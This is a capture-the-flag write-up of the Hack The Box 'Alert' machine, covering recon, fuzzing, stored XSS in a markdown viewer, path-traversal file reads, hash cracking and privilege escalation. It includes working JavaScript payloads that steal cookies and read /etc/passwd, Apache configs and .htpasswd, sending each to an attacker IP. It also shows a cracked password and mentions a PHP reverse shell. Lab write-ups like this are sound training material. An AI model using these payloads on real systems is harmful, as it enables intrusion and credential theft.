


# HackTheBox - Machines: Alert Write-up



## Introduction

In this write-up, we will explore the steps taken to solve the "Alert" machine on Hack The Box. 

## PART 1 : Recon :

The first step of any penetration test is to gather much informations as possible.

### Nmap scan : 

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-29 13:45 CET
Nmap scan report for alert.htb (10.10.11.44)
Host is up (0.029s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-title: Alert - Markdown Viewer
|_Requested resource was index.php?page=alert
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We found 2 services :

- Port 22: shh 
  - Not vulnerable (no cve)
  - Need credentials or private key to exploit 

- Port 80 : Apache 2.4.41
  - Not vulnerable

### Sundomain fuzzing 

We will focus on the Apache web server.
First we will do a subdomain enumeration : 

```bash
$ ffuf -c -w directory-list-lowercase-2.3-medium.txt -u http://alert.htb/index.php\?page\=FUZZ -fs 690

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://alert.htb/index.php?page=FUZZ
 :: Wordlist         : FUZZ: /home/yannis/Documents/Cyber/Tools/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 690
________________________________________________

contact                 [Status: 200, Size: 1000, Words: 191, Lines: 29, Duration: 39ms]
about                   [Status: 200, Size: 1046, Words: 187, Lines: 24, Duration: 39ms]
donate                  [Status: 200, Size: 1116, Words: 292, Lines: 29, Duration: 30ms]
messages                [Status: 200, Size: 661, Words: 123, Lines: 25, Duration: 28ms]
alert                   [Status: 200, Size: 966, Words: 201, Lines: 29, Duration: 27ms]

```

As we can see we have access to a new interesting `messages` page but when we trying to get it, we see a blank page. So it mean that we don't are authorized to see it.

When we go on the main page, we see that alert is a web service to render markdown files and we can share it with a special link to someone.

### Upload vulnerability
So..
What it happend if we upload and see a javaScript script. 

file content : 
```html
<script>
    alert("XSS found")
</script>
```
After upload : 



We found an XSS !!!
As we can see on the about page: "Our administrator is in charge of reviewing contact messages and reporting errors to us, so we strive to resolve all issues within 24 hours."

This hint helps us understand how we can access the `messages` page using a [JavaScript page content stealer](https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/steal-info-js.html). If we send a message to the administrator with a link to our malicious script, we can obtain what he sees on the `messages` page.

Let's try

- 1. Upload this script as file.md
    ```html 
    <script>
        fetch('http://[your_ip]:4444/', {
                method: 'POST',
                mode: 'no-cors',
                body:document.cookie
            });
    </script>
    ```
- 2. click on "share markdown" at the bottom right of the page
- 3. Run a netcat listenner on 4444 port : `nc -lvnp 4444`
- 4. Copy the special link and send as message content with a random email in `about` page.

Then, you will see :
```bash 
nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.44 51114
GET /data?PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KPGhlYWQ+CiAgICA8bWV0YSBjaGFyc2V0PSJVVEYtOCI+CiAgICA8bWV0YSBuYW1lPSJ2aWV3cG9ydCIgY29udGVudD0id2lkdGg9ZGV2aWNlLXdpZHRoLCBpbml0aWFsLXNjYWxlPTEuMCI+CiAgICA8bGluayByZWw9InN0eWxlc2hlZXQiIGhyZWY9ImNzcy9zdHlsZS5jc3MiPgogICAgPHRpdGxlPkFsZXJ0IC0gTWFya2Rvd24gVmlld2VyPC90aXRsZT4KPC9oZWFkPgo8Ym9keT4KICAgIDxuYXY+CiAgICAgICAgPGEgaHJlZj0iaW5kZXgucGhwP3BhZ2U9YWxlcnQiPk1hcmtkb3duIFZpZXdlcjwvYT4KICAgICAgICA8YSBocmVmPSJpbmRleC5waHA/cGFnZT1jb250YWN0Ij5Db250YWN0IFVzPC9hPgogICAgICAgIDxhIGhyZWY9ImluZGV4LnBocD9wYWdlPWFib3V0Ij5BYm91dCBVczwvYT4KICAgICAgICA8YSBocmVmPSJpbmRleC5waHA/cGFnZT1kb25hdGUiPkRvbmF0ZTwvYT4KICAgICAgICA8YSBocmVmPSJpbmRleC5waHA/cGFnZT1tZXNzYWdlcyI+TWVzc2FnZXM8L2E+ICAgIDwvbmF2PgogICAgPGRpdiBjbGFzcz0iY29udGFpbmVyIj4KICAgICAgICA8aDE+TWVzc2FnZXM8L2gxPjx1bD48bGk+PGEgaHJlZj0nbWVzc2FnZXMucGhwP2ZpbGU9MjAyNC0wMy0xMF8xNS00OC0zNC50eHQnPjIwMjQtMDMtMTBfMTUtNDgtMzQudHh0PC9hPjwvbGk+PC91bD4KICAgIDwvZGl2PgogICAgPGZvb3Rlcj4KICAgICAgICA8cCBzdHlsZT0iY29sb3I6IGJsYWNrOyI+qSAyMDI0IEFsZXJ0LiBBbGwgcmlnaHRzIHJlc2VydmVkLjwvcD4KICAgIDwvZm9vdGVyPgo8L2JvZHk+CjwvaHRtbD4KCg== HTTP/1.1
Host: 10.10.14.84:4444
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.111 Safari/537.36
Accept: */*
Origin: http://alert.htb
Referer: http://alert.htb/
Accept-Encoding: gzip, deflate
```
Then we can decode the message page content : 

```bash
echo "PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KPGhlYWQ+CiAgICA8bWV0YSBjaGFyc2V0PSJVVEYtOCI+CiAgICA8bWV0YSBuYW1lPSJ2aWV3cG9ydCIgY29udGVudD0id2lkdGg9ZGV2aWNlLXdpZHRoLCBpbml0aWFsLXNjYWxlPTEuMCI+CiAgICA8bGluayByZWw9InN0eWxlc2hlZXQiIGhyZWY9ImNzcy9zdHlsZS5jc3MiPgogICAgPHRpdGxlPkFsZXJ0IC0gTWFya2Rvd24gVmlld2VyPC90aXRsZT4KPC9oZWFkPgo8Ym9keT4KICAgIDxuYXY+CiAgICAgICAgPGEgaHJlZj0iaW5kZXgucGhwP3BhZ2U9YWxlcnQiPk1hcmtkb3duIFZpZXdlcjwvYT4KICAgICAgICA8YSBocmVmPSJpbmRleC5waHA/cGFnZT1jb250YWN0Ij5Db250YWN0IFVzPC9hPgogICAgICAgIDxhIGhyZWY9ImluZGV4LnBocD9wYWdlPWFib3V0Ij5BYm91dCBVczwvYT4KICAgICAgICA8YSBocmVmPSJpbmRleC5waHA/cGFnZT1kb25hdGUiPkRvbmF0ZTwvYT4KICAgICAgICA8YSBocmVmPSJpbmRleC5waHA/cGFnZT1tZXNzYWdlcyI+TWVzc2FnZXM8L2E+ICAgIDwvbmF2PgogICAgPGRpdiBjbGFzcz0iY29udGFpbmVyIj4KICAgICAgICA8aDE+TWVzc2FnZXM8L2gxPjx1bD48bGk+PGEgaHJlZj0nbWVzc2FnZXMucGhwP2ZpbGU9MjAyNC0wMy0xMF8xNS00OC0zNC50eHQnPjIwMjQtMDMtMTBfMTUtNDgtMzQudHh0PC9hPjwvbGk+PC91bD4KICAgIDwvZGl2PgogICAgPGZvb3Rlcj4KICAgICAgICA8cCBzdHlsZT0iY29sb3I6IGJsYWNrOyI+qSAyMDI0IEFsZXJ0LiBBbGwgcmlnaHRzIHJlc2VydmVkLjwvcD4KICAgIDwvZm9vdGVyPgo8L2JvZHk+CjwvaHRtbD4KCg==" |base64 --decode

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
        <a href="index.php?page=messages">Messages</a>    </nav>
    <div class="container">
        <h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>
    </div>
    <footer>
        <p style="color: black;">� 2024 Alert. All rights reserved.</p>
    </footer>
</body>
</html>
```
In the message page content, we can see a LFI (local file inclusion) vulnerability.
As we can see we can get a file named `messages.php?file=2024-03-10_15-48-34.txt` wich contain all messages.

Now, we can use this link to get files, for example the `/etc/passwd` file with the following url : `http://alert.htb/messages.php?file=../../../../../../../etc/passwd`

In the /etc/passwd file we can read : 

```text 
albert:x:1000:1000:albert:/home/albert:/bin/bash
david:x:1001:1002:,,,:/home/david:/bin/bash
root:x:0:0:root:/root:/bin/bash
```
These informations on users and personnal directories can be interesting for the rest.


### Use upload vuln to fetch Apache configuration files

To do this, we need to know the default location of files configuration like : 
- /etc/apache2/sites-available/000-default.conf
- /etc/apache2/apache2.conf

let's trying to get the `000-default.conf` file :
```html
<script>
  var url = "http://alert.htb/messages.php?file=../../../../../../../etc/apache2/sites-available/000-default.conf"
  var attacker = "http://10.10.14.84:4444/data"
  var xhr = new XMLHttpRequest()
  xhr.onreadystatechange = function () {
    if (xhr.readyState == XMLHttpRequest.DONE) {
      fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
  }
  xhr.open("GET", url, true)
  xhr.send(null)
</script>
```

Content : 

```html
<pre><VirtualHost *:80>
    ServerName alert.htb

    DocumentRoot /var/www/alert.htb

    <Directory /var/www/alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^alert\.htb$
    RewriteCond %{HTTP_HOST} !^$
    RewriteRule ^/?(.*)$ http://alert.htb/$1 [R=301,L]

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

<VirtualHost *:80>
    ServerName statistics.alert.htb

    DocumentRoot /var/www/statistics.alert.htb

    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

</pre>
```
In this file we see the link to a file who contain user authentification information : /var/www/statistics.alert.htb/.htpasswd
Let's get it with our javaScript script.

Content : `albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/`

### Crack albert password 

To have the albert password, we need to crack the hash using brute-force attack.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long alert.hash
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (albert)     
1g 0:00:00:00 DONE (2024-12-26 13:08) 3.703g/s 10429p/s 10429c/s 10429C/s bebito..medicina
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

We found the albert user password : manchesterunited

### Connection to ssh target server

```bash
albert@alert:~$ ls
user.txt
albert@alert:~$ cat user.txt 
ebc084cd2a79fe4e9f639XXXXXXXXX
```
We can submit, now the user flag.

### root flag

we have a server monitor page host on the 8080 port. This website is accessible only from local machine.
To see it, we need to create a ssh tunnel to this port.

```bash
$ ssh -L 8080:127.0.0.1:8080 albert@alert.htb
```

Then, after go to the website directory in /opt/. We see that this directory is own by root. 
To get a root shell, we just need to put a php reverse shell wich point to our machine and we will have a root reverse shell.

After get the content of the `/root/root.txt` we can submit the root flag.
